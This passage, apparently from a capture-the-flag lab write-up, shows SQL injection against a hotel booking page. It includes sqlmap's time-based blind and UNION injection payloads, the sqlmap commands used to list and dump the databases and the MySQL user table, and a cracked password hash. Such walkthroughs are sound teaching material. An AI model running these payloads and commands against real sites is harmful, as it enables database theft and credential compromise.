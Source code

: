         Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: cod=5-1 AND (SELECT 1494 FROM (SELECT(SLEEP(5)))doUk)

        Type: UNION query
        Title: Generic UNION query (NULL) - 7 columns
        Payload: cod=-8368 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,CONCAT(0x717a707871,0x727a50526445566e634476524a594655416e436156515a667a77797962676967515668766e6e626c,0x71707a7671),NULL-- AwXR
    ---
    web server operating system: Linux Debian 9.0 (stretch)
    web application technology: PHP, Apache 2.4.25
    back-end DBMS: MySQL >= 5.0.12

We list the available database:

  * hotel
  * infomration\_schema
  * mysq
  * performance\_schema

The SQLmap command is the following:

    :::text
    sqlmap -u http://10.10.10.143/room.php?cod=5-1 --dbs
    available databases [4]:
    [*] hotel
    [*] information_schema
    [*] mysql
    [*] performance_schema

We list the table for the `hotel` database and dump it, nothing interesting.

    :::text
    sqlmap -u http://10.10.10.143/room.php?cod=5-1  -D hotel --tables
    Database: hotel
    [1 table]
    +------+
    | room |
    +------+

    sqlmap -u http://10.10.10.143/room.php?cod=5-1  -D hotel --dump
    Database: hotel
    Table: room
    [6 entries]
    <SNIP>

We dump the mysqluser table and crack the password hash (with the sqlmap
cracking function):

    :::text
    sqlmap -u http://10.10.10.143/room.php?cod=5-1  -D mysql -T user --dump
    Database: mysql
    Table: user
    [1 entry]
    *2D2B7A5E4E637B8FBA1D17F40318F277D29964D0 (imissyou)
